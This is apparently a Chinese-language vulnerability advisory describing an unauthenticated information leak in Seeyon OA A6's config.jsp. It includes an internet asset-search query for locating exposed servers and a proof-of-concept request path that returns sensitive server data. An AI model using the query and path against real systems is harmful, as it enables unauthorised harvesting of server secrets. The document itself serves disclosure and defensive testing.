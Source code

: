 # 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="yyoa" && app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646054177060-6bebaa85-7683-4dd3-8120-39a633481f14.png)

验证POC

```javascript
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![img](../../../.vuepress/public/img/1646054254418-c88d4b28-ec92-4b79-80a4-7f9d4f1421fb.png)